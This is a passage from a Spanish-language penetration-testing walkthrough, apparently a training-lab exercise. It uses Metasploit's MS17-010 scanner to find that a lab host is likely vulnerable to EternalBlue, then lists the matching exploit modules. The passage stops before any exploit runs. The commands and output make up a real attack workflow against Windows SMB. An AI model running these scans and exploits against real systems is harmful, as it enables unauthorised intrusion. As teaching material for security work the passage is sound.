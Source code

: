 ### **Buscar y decidir una ruta de explotación**

El **IIS** podría ser un camino potencial, o podríamos intentar acceder al host mediante **SMB** usando una herramienta como **Impacket**. También existe la posibilidad de que el host sea vulnerable a una ejecución remota de código (RCE). **MS17-010 (EternalBlue)** es una vulnerabilidad conocida que afecta a los sistemas desde **Windows 2008** hasta **Server 2016**. Vamos a validar si el host es vulnerable utilizando un módulo auxiliar en **Metasploit**.

```bash
msf6 auxiliary(scanner/smb/smb_ms17_010) > use auxiliary/scanner/smb/smb_ms17_010 
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                 Required  Description
   ----         ---------------                 --------  -----------
   CHECK_ARCH   true                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framewor  yes       List of named pipes to check
                k/data/wordlists/named_pipes.t
                xt
   RHOSTS                                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        445                             yes       The SMB service port (TCP)
   SMBDomain    .                               no        The Windows domain to use for authentication
   SMBPass                                      no        The password for the specified username
   SMBUser                                      no        The username to authenticate as
   THREADS      1                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.129.201.97
RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Podemos ver que nuestro objetivo es probablemente vulnerable a **EternalBlue**. Ahora podemos configurar el exploit y el payload, y probarlo.

**3. Seleccionar Exploit y Payload, luego entregarlos**

### Elegir y Configurar Nuestro Exploit y Payload

```plaintext
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```